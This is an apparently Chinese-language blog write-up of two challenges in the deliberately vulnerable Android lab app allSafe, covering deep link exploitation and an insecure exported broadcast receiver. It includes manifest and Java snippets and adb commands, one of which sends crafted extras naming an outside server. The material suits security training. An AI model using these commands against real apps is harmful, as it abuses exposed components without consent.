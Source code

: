 title: allSafe
date: 2023-01-25 16:55:12
tags:
---
## 1.Deep Link Exploitation 
声明：

        <activity android:theme="@style/Theme.Allsafe.NoActionBar" android:name="infosecadventures.allsafe.challenges.DeepLinkTask">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="allsafe" android:host="infosecadventures" android:pathPrefix="/congrats"/>
            </intent-filter>
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="https"/>
            </intent-filter>
        </activity>
代码：

    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();

    Log.d("ALLSAFE", "Action: " + action + " Data: " + data);

    try {
        if (data.getQueryParameter("key").equals(getString(R.string.key))) {
            findViewById(R.id.container).setVisibility(View.VISIBLE);
            SnackUtil.INSTANCE.simpleMessage(this, "Good job, you did it!");
        } else {
            SnackUtil.INSTANCE.simpleMessage(this, "Wrong key, try harder!");
        }
    } catch (Exception e) {
        SnackUtil.INSTANCE.simpleMessage(this, "No key provided!");
        Log.e("ALLSAFE", e.getMessage());
    }

adb 命令行：

	adb shell am start -a android.intent.acton.VIEW -d "allsafe://infosecadventures/congrats?key=ebfb7ff0-b2f6-41c8-bef3-4fba17be410c"
    
* scheme host pathPrefix 以及 其余参数

allsafe://infosecadventures/congrats?key=ebfb7ff0-b2f6-41c8-bef3-4fba17be410c
    
## 2.inSecure Broadcast Receiver

        <receiver
            android:name=".challenges.NoteReceiver"
            android:exported="true">
            <intent-filter>
                <action android:name="infosecadventures.allsafe.action.PROCESS_NOTE" />
            </intent-filter>
        </receiver>
        
接受代码:

	String server = intent.getStringExtra("server");
    String note = intent.getStringExtra("note");
    String notification_message = intent.getStringExtra("notification_message");
    
adb命令：

adb shell am broadcast -a infosecadventures.allsafe.action.PROCESS_NOTE --es server "nuoen.com" --es note "thenote" --es notification_message "pleasclickme" -f 0x01000000

加上-f 0x1=01000000 突破隐式广播限制

https://www.jianshu.com/p/5283ebc225d5



